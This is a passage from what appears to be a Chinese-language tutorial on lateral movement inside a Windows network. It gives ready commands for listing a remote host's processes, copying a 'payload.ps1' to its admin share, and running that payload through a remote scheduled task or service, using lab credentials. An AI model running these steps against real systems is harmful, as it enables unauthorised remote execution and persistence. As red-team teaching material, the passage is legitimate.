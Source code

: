 <img src="内网横向移动/image-20230830115326360.png" alt="image-20230830115326360" style="zoom:67%;" />	

![image-20230830115336527](内网横向移动/image-20230830115336527.png)	



### 3.列出目标主机的所有进程	

执行`tasklist`命令列出目标主机的所有进程 (目标主机需关闭防火墙)

``` 
tasklist /s <目标ip> /u <用户名> /p <用户密码>
```

<img src="内网横向移动/image-20230830121318811.png" alt="image-20230830121318811" style="zoom:67%;" />	



### 4.上传文件至目标主机

执行如下命令将文件上传至目标主机的C盘 

```
copy payload.ps1 \\192.168.47.133\c$
```

![image-20230830150911630](内网横向移动/image-20230830150911630.png)	



### 5.创建计划任务 

执行如下命令创建一个名为"MyTask"的计划任务，当目标系统启动时则执行我们的powershell脚本

```
schtasks /create /s 192.168.47.133 /u Administrator /p qq123456 /tn MyTask /sc onstart /tr "powershell.exe -ExecutionPolicy Bypass -File C:\payload.ps1" /f
```

![image-20230830155655844](内网横向移动/image-20230830155655844.png)



执行如下命令删除指定计划任务

```
schtasks /delete /u Administrator /p qq123456 /s 192.168.47.133 /tn Mytask /f
```

![image-20230830160131674](内网横向移动/image-20230830160131674.png)



### 6.创建系统服务		

执行如下命令为目标主机创建系统服务

```
sc \\192.168.47.133 create "MyService" binpath= "powershell.exe -ExecutionPolicy Bypass -File C:\payload.ps1"
```
